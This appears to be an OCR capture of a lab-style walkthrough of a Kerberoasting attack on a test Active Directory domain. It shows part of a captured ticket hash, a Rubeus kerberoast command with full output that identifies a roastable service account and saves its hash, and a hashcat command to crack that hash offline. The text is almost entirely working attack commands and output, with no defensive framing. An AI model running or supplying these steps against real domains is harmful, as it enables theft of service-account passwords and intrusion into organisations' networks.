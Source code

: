 								 7FFA78BD944905947852F551AED626FD3617E50F6DB90E0442A5E9C5696E0B5FCCF40122ED22D344
								 997C7A928B19679CDB86D150CC840CA763F587359822B7C31138BEFA2C97CBFF4DA29C577F7685FD
								 86C277B12902E8EB36228AB75F331A952D98AFDD6573CD97EFF8C5C786B2C1B6A5B767873273F1D7
								 231E785CE95CC92E2985707124FA18EE4D0FA80CBB82A843BFD6B7B8948210C2482CA4FB7DE7ABD9
								 BBFB42BA5779AFDFA9480DBC36171243ABA03D08FA541BE39937B13ABF68BF81CC4B658FF928FDD7
								 D7C4465D6661D1D87EC1924796D4A3B9EC26CABD5EBA1E4034C3B9D7A6CEB956D07DE65F5DC6AC66
								 A83C355F8E3863A13E616F6CC26CA915850A071209987AC640F429499CC57C3E7B3F750434BE8B2D
								 30BB264733415B5008EF4B3342A6F8F395698932D07181B7A6CCBEA5735E034B2C6C6A21C3B17991
								 58AD4C0F012B2AA3FFA99E7BC13F738FCF79877DEC4425D79C755EC7D1C20061A47D9DD61A02D40D
								 10A13F2DC862DE99DAB8530C3839BDA09E3F9A49887E51E2A1C1A98A0294C200F472D95E79B7824B
								 200A6342961613E1B2B986916DF92C0CEA020CDC6CB495DF08BE5B505821D537F1105CD23B359040
								 88967AC0301801A6F3B3703BDB007DF6042798D806D2CA97639BFDD4383F835B946049ABA764BD8F
								 54FC2C5C500EE9D5E2720024A9AC1FE76D022F0A19073476F5E067FF167A179B4B5EC285217D09ED
								 F08E16DECB81A15F8CC3AE2D98FF9BAFEA3191A5912E9022799EAF418BEE9E997DFB66F5D06EB92A
								 B4BDC1BBBA491E3A9BCD594692ACCE4959701051D2B1770689817B4497


Save hashcat format


	PS C:\Users\thor\Desktop> .\Rubeus.exe kerberoast /outfile:hash.txt /format:hashcat

	   ______        _
	  (_____ \      | |
	   _____) )_   _| |__  _____ _   _  ___
	  |  __  /| | | |  _ \| ___ | | | |/___)
	  | |  \ \| |_| | |_) ) ____| |_| |___ |
	  |_|   |_|____/|____/|_____)____/(___/

	  v1.6.4


	[*] Action: Kerberoasting

	[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
	[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

	[*] Searching the current domain for Kerberoastable users

	[*] Total kerberoastable users : 1


	[*] SamAccountName         : kerberoastme
	[*] DistinguishedName      : CN=kerberoastme,OU=Service Accounts,DC=valhalla,DC=local
	[*] ServicePrincipalName   : http/kerberoastme:80
	[*] PwdLastSet             : 13.08.2021 18:25:06
	[*] Supported ETypes       : RC4_HMAC_DEFAULT
	[*] Hash written to C:\Users\thor\Desktop\hash.txt

	[*] Roasted hashes written to : C:\Users\thor\Desktop\hash.txt


Crack with hashcat


	hashcat -m 13100 hash.txt 500.txt --force 

